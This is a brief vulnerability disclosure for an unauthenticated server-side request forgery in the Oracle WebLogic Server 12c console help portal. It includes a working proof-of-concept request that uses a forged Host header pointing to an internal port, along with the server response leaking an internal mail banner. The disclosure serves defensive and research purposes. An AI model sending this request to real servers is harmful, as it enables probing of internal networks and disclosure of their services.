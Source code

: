 # Unauthenticated SSRF in WebLogic Console Help

Product: Oracle WebLogic Server 12c
Version: 12.1.3.0.0

Oracle WebLogic Server in default installation with enabled console help portal is vulnerable to Server Side Request forgery.
Through a HTTP Host header injection contition an attacker is able to modify it to any address causing a server to issue a HTTP GET request to pointed IP and TCP port number. Response of malicious HTTP request contains an output of SSRF query, disclosing reply of forged request.

## PoC:

### REQ:

```
POST /consolehelp/console-help.portal HTTP/1.1
Host: 127.0.0.1:25
Content-Length: 6

aaaa
```

### RES:

```
HTTP/1.1 200 OK
Date: Mon, 15 Jul 2019 13:33:29 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Content-Language: en-US
Content-Length: 841585

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html lang="en-US"><head><meta http-equiv="Content-Script-Type" content="text/javascript"><meta http-equiv="Content-Type" content="text/html; charset=UTF-8"><title>Oracle WebLogic Server Administration Console Help</title>
[...]
!-- Section 508: Skip repetitive links -->
<a name="mainContentStart" id="mainContentStart" tabindex="-1"></a>
<div>
220 xxxx.aaa.bbb.oraclevcn.com ESMTP Sendmail 8.14.4/8.14.4; Mon, 15 Jul 2019 13:33:29 GMT421 4.7.0 xxxx.aaa.bbb.oraclevcn.com Rejecting open proxy localhost [127.0.0.1]
</div>
[...]
```
